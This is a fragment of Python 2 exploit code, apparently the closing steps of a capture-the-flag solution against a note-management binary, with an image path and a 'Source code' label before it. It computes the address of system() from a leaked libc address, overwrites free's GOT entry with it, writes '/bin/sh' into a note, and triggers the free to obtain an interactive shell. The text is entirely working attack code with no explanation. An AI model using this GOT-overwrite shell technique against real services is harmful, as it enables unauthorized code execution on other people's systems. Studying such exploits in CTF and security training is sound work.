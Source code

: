```
print 'libc start addr:',hex(libcstart_2)
system_addr = libcstart_2 + sys_off
print 'system_addr:',hex(system_addr)

# 7. overwrite free's got
edit(3,free_got)
edit(0,p64(system_addr)+printf_plt)

# 8. write argv
edit(3,p64(0x6020d0))
edit(0,'/bin/sh\0')

# 9. exploit
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))
sleep(0.2)
conn.interactive()
```
